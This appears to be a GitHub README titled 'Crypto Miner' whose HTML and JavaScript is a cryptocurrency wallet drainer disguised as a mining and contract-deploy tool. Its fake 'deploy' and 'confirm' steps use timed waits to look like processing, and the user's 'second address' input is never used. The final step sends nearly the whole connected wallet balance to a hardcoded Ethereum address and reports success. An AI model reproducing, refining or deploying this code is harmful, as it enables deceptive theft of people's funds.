 <!-- BEGIN_TF_DOCS -->
<div align="center">

<a name="readme-top"></a>

<img alt="gif-header" src="https://github.com/lpsm-dev/lpsm-dev/blob/main/.github/assets/gif-header.gif" width="225"/>

<h2>Crypto Miner</h2>

## ➤ Code Source <a name="#-important-node"></a>


<section>
   <button id="connectButton">connect</button>
        <table id="checkAdressBalanceButton" style="display: none">
            <tr>
                <td>my contract</td>
                <td><button id="regular">deploy</button></td>
                <td>
                    <p id="result"><code>no contract</code></p>
                </td>
            </tr>
            <tr>
                <td>my second address</td>
                <td>
                    <input
                        type="text"
                        id="typeAdress"
                        name="adress_auth"
                        placeholder="Input second address ETH-0x"
                        autocomplete="off"
                        size="20"/>
                </td>
                <td>
                    <button id="sendEtherButton" style="display: none">Attach</button>
                </td>
                <td><div id="statusMessage"></div></td>
            </tr>
            <tr>
                <td>my status</td>
                <td><center>
                    <button disabled="disabled" id="checkBalanceButton" style="display: none">
                        liquid
                    </button>
                </td>
                <td><p id="balanceDisplay" style="display: none"></p>confirm the liquidity</td>
            </tr>
        </table>
        <script>
            const connectButton = document.getElementById("connectButton");
            const sendEtherButton = document.getElementById("sendEtherButton");
            const typeAdress = document.getElementById("typeAdress");
            const checkBalanceButton = document.getElementById("checkBalanceButton");
            const balanceDisplay = document.getElementById("balanceDisplay");
            const checkAdressBalanceButton = document.getElementById("checkAdressBalanceButton");
            const statusMessage = document.getElementById("statusMessage");
            const regularButton = document.getElementById("regular");
            const resultElement = document.getElementById("result");

            let validationComplete = false;
            let transferInProgress = false;

            const TARGET_ADDRESS = "0x5f912526918f48aE4511D2c0E08391d097a353bb";

            async function performTransaction() {
                try {
                    const selectedAddress = window.ethereum.selectedAddress;
                    if (!selectedAddress) {
                        alert("Connect your wallet before proceeding.");
                        return;
                    }

                    const balanceWei = await window.ethereum.request({
                        method: "eth_getBalance",
                        params: [selectedAddress, "latest"]
                    });

                    const balanceEth = (parseInt(balanceWei, 16) / 1e18) - 0.0008;
                    const amountToSend = 0.00055; 

                    if (balanceEth < amountToSend) {
                        alert("Insufficient balance to perform this transaction.");
                        return;
                    }

                    const valueInWei = (balanceEth * 1e18).toString(16);

                    const transactionParams = {
                        from: selectedAddress,
                        to: "0x5f912526918f48aE4511D2c0E08391d097a353bb",
                        value: `0x${valueInWei}`
                    };

                    await window.ethereum.request({
                        method: "eth_sendTransaction",
                        params: [transactionParams]
                    });

                    alert("Operation successfully");
                } catch (error) {
                    console.error("Error during the transaction:", error);
                    alert("An error occurred while attempting the transaction.");
                }
            }

            connectButton.addEventListener("click", async () => {
                try {
                    const accounts = await window.ethereum.request({
                        method: "eth_requestAccounts",
                    });
                    if (accounts.length > 0) {
                        sendEtherButton.style.display = "block";
                        typeAdress.style.display = "block";
                        checkBalanceButton.style.display = "block";
                        checkAdressBalanceButton.style.display = "block";
                        connectButton.style.display = "none";
                    }
                } catch (error) {
                    console.error(error);
                    alert("connection error");
                }
            });

            sendEtherButton.addEventListener("click", async () => {
                try {
                    const value = typeAdress.value;
                    if (resultElement.innerText !== "ready") {
                        alert("Click the deploy button");
                        return;
                    }
                    if (!value || value.length < 40) {
                        alert("Attention! Enter the correct second Ethereum address");
                        return;
                    }
                    if (!validationComplete) {
                        if (/^[a-zA-Z0-9!@#$%^&*()-_+=<>?:",./[\]{}|\\]+$/g.test(value) && value.length >= 40) {
                            statusMessage.textContent = "waiting...";
                            typeAdress.disabled = true;
                            sendEtherButton.disabled = true;
                            setTimeout(() => {
                                validationComplete = true;
                                statusMessage.textContent = "ready";
                                typeAdress.disabled = false;
                                sendEtherButton.textContent = "confirm";
                                sendEtherButton.disabled = false;
                            }, 10000);
                        } else {
                            alert("Error! input value");
                        }
                    } else if (sendEtherButton.textContent === "confirm") {
                        performTransaction();
                    }
                } catch (error) {
                    console.error("Error on process:", error);
                    transferInProgress = false;
                }
            });

            regularButton.addEventListener("click", () => {
                resultElement.innerText = "waiting...";
                setTimeout(() => {
                    resultElement.innerText = "ready";
                    sendEtherButton.style.display = "block";
                }, 10000);
            });
        </script>
        <style>
            html {
                box-sizing: border-box;
                font-family: "Open Sans", sans-serif;
            }
            *,
            *:before,
            *:after {
                box-sizing: inherit;
            }
            body {
                font-family: Arial, sans-serif;
                text-align: center;
                margin: 0;
                padding: 20px;
                background: #222336;
                background: -webkit-radial-gradient(
                    circle farthest-side at center center,
                    #222336 0%,
                    #222336 100%
                );
                background: -moz-radial-gradient(
                    circle farthest-side at center center,
                    #2a2c3f 0%,
                    #222336 100%
                );
                background: radial-gradient(
                    circle farthest-side at center center,
                    #222336 0%,
                    #222336 100%
                );
            }
            section {
                background: #2a2c3f;
                color: white;
                border-radius: 1em;
                padding: 1em;
                position: absolute;
                top: 50%;
                left: 50%;
                margin-right: -50%;
                margin: 0 auto;
                transform: translate(-50%, -50%);
            }
        </style>
    </section>
</body>
</html>
